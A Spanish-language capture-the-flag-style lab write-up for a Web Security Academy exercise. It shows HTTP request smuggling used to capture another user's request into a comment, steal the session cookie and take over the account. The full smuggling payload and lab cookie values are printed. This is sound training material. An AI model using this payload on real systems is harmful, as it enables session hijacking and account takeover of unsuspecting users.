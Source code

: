 Continuamos con el laboratorio anterior, donde logramos capturar una petición legítima del siguiente usuario mediante un ataque de HTTP request smuggling. En esta parte, analizamos el contenido del comentario almacenado para extraer la cookie de sesión de la víctima.

Una vez identificamos el valor de la ‘**cookie session**‘ en la petición capturada, la utilizamos para suplantar la identidad del usuario y acceder a su cuenta. Este paso demuestra cómo una simple desincronización entre servidores puede derivar en la total toma de control de una cuenta ajena.

Este ejercicio refuerza la gravedad de las vulnerabilidades de tipo request smuggling y cómo pueden comprometer directamente la privacidad e integridad de los usuarios.

Solucion
ahora ya una vez configurado todo el payload en vamos a cambiar el coment en el csrf hasta el ultimo de esta manera quedaria el payloda y en la seccion de comentarios deberias de ver algo asi
![Pasted image 20250807221729.png](imagenes/Pasted image 20250807221729.png)
payload (POST / HTTP/1.1

Host: 0a3e0063039f125e80211c3d00870036.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Content-Length: 286

Transfer-Encoding: chunked



0



POST /post/comment HTTP/1.1

Content-Type: application/x-www-form-urlencoded

Cookie: session=tIa5AHKbdB1ecVxlgPyGDgocKZ9PSLFf

Content-Length: 950



csrf=MQz6eTcTy7X1z7RI83NowKPgY689AC5l&postId=1&name=testing&email=omar%40omar.com&website=https%3A%2F%2Fcallate.com&comment=prueba)

entonces copiamos la cookie de session
![Pasted image 20250807221842.png](imagenes/Pasted image 20250807221842.png)
y modificamos la cookie de session en el login
![Pasted image 20250807221953.png](imagenes/Pasted image 20250807221953.png)
R9UMrQYOdIskkgFNXMLfJOOIXa0w9S1w 
esperamos y ya esta
![Pasted image 20250807225421.png](imagenes/Pasted image 20250807225421.png)
